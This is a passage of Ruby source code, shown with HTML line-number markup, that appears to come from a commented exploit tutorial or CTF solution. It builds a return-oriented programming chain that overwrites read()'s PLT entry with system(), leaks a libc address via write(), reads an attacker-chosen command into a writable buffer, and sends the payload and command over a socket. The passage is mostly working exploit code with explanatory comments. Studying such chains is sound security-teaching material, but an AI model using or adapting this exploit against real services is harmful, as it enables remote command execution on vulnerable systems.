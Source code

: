 <span class="lnr">35 </span>
<span class="lnr">36 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">37 </span>    <span class="Comment"># Note that this calls read_addr, which is overwritten by a pointer</span>
<span class="lnr">38 </span>    <span class="Comment"># to system() in the previous stack frame</span>
<span class="lnr">39 </span>    read_addr,   <span class="Comment"># (this will become system())</span>
<span class="lnr">40 </span>
<span class="lnr">41 </span>    <span class="Comment"># second read()'s stack frame</span>
<span class="lnr">42 </span>    <span class="Comment"># This reads the address of system() from the socket and overwrites</span>
<span class="lnr">43 </span>    <span class="Comment"># read()'s .plt entry with it, so calls to read() end up going to</span>
<span class="lnr">44 </span>    <span class="Comment"># system()</span>
<span class="lnr">45 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">46 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
<span class="lnr">47 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">48 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">49 </span>
<span class="lnr">50 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">51 </span>    read_addr,
<span class="lnr">52 </span>
<span class="lnr">53 </span>    <span class="Comment"># write()'s stack frame</span>
<span class="lnr">54 </span>    <span class="Comment"># This frame gets the address of the read() function from the .plt</span>
<span class="lnr">55 </span>    <span class="Comment"># entry and writes to to stdout</span>
<span class="lnr">56 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">57 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
<span class="lnr">58 </span>    <span class="Constant">1</span>,           <span class="Comment"># stdout</span>
<span class="lnr">59 </span>    pppr_addr,   <span class="Comment"># retrurn address</span>
<span class="lnr">60 </span>
<span class="lnr">61 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">62 </span>    write_addr,
<span class="lnr">63 </span>
<span class="lnr">64 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">65 </span>    <span class="Comment"># This reads the command we want to run from the socket and puts it</span>
<span class="lnr">66 </span>    <span class="Comment"># in our writable &quot;buf&quot;</span>
<span class="lnr">67 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">68 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">69 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">70 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">71 </span>
<span class="lnr">72 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">73 </span>  ].reverse.pack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">74 </span>
<span class="lnr">75 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">76 </span>s.write(payload)
<span class="lnr">77 </span>
<span class="lnr">78 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">79 </span>s.write(cmd)